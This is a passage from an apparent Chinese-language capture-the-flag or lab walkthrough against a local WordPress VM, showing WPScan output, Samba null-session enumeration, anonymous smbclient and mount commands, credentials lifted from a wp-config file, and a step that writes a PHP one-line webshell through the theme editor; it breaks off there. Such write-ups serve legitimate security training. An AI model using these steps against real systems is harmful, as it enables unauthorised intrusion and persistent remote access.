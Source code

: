 ```
 Checking Config Backups - Time: 00:00:00 &lt;=============================================================================================================================================================&gt; (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug  5 11:30:01 2021
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 46.31 KB
[+] Data Received: 268.202 KB
[+] Memory used: 210.09 MB
[+] Elapsed time: 00:00:03

```

> 
之前扫描端口时发现445端口是开放的，查看一下`Samba服务`


> 
使用`enum4linux`进行扫描：`enum4linux 192.168.56.103`，发现存在空连接漏洞


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/02f37013150e4bc09bbca3d19bedb515.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2935f0be9a224c10a6734d1734391f70.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

### getshell

> 
使用linux连接samba服务<br/> 或者进行远程挂载


```
smbclient //192.168.56.103/share$
或者
mount -t cifs -o username='',password='' //192.168.56.103/share$ /mnt

```

> 
查看一下wordpress的配置文件：`more wp-config-sample.php` (q退出查看)<br/> 得到数据库账号和密码：`Admin:TogieMYSQL12345^^`


> 
登入phpmyadmin，发现此用户无法查看数据库中的用户


> 
尝试用数据库账号密码登录`http://192.168.56.103/wordpress/wp-admin/`


> 
发现存在命令执行漏洞：`http://192.168.56.103/wordpress/wp-admin/theme-editor.php?file=404.php&amp;theme=twentyfifteen&amp;scrollto=24`，写入一句话木马<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7dddf8a8206f409b8e4d0bd06b4e38ec.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
